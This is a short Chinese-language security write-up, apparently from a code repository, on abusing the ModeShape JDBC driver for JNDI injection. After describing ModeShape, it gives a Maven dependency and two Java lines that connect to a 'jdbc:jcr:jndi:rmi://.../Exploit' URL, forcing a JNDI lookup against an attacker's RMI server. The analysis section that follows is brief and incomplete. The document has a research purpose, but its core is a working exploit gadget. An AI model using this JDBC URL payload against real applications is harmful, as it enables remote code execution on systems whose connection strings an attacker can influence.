



ModeShape是一个分层的、事务性的、一致的数据存储，支持查询、全文搜索、事件、版本管理、引用以及灵活和动态的模式。它非常快速、高度可用、极具可扩展性，而且它是100%开源的，用Java编写。客户端使用（JSR-283）标准的内容库（又称JCR）的Java API或ModeShape的REST API，并可以通过JDBC和SQL查询内容。

ModeShape是JCR(Java Content Repository)的一个实现，使用JCR API来访问其他系统的数据，如文件系统、Subversion、JDBC元数据。

## 利用方法

依赖
```xml
<dependency>
    <groupId>org.modeshape</groupId>
    <artifactId>modeshape-jdbc</artifactId>
    <version>5.4.1.Final</version>
</dependency>
```


```java
Class.forName("org.modeshape.jdbc.LocalJcrDriver");
DriverManager.getConnection("jdbc:jcr:jndi:rmi://127.0.0.1/Exploit");
```

## 简单分析

在org.modeshape.jdbc.delegate.LocalRepositoryDelegate#initRepository中

当调用this.getConnectionInfo时



这里会去除前缀，之后很明显的jndi特征不必多说了


